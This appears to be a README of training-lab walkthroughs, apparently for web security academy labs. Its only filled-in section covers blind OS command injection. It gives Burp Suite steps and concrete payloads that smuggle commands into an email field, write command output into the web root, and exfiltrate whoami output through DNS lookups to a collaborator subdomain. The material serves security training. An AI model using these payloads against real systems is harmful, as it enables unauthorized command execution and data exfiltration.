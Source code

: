 # Table of Contents

- [OS Command Injection](#OS-Command-Injection)
- [Information disclosure](#Information-disclosure)
- [Directory Traversal](#Directory-Traversal)
- [SQL Injection](#SQL-Injection)
- [Cross-site scripting](#XSS)
- [Server side template injection](#SSTI)
- [Business logic vulnerabilities](#Business-logic-vulnerabilities)
- [Access control vulnerabilities](#Access-control-vulnerabilities)
- [Cross site request forgery](#CSRF)

# OS Command Injection

## Blind OS command injection with output redirection
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
    `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
5. Observe that the response contains the output from the injected command.

## Blind OS command injection with out-of-band interaction
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

## Blind OS command injection with out-of-band data exfiltration
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    `email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`
5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.
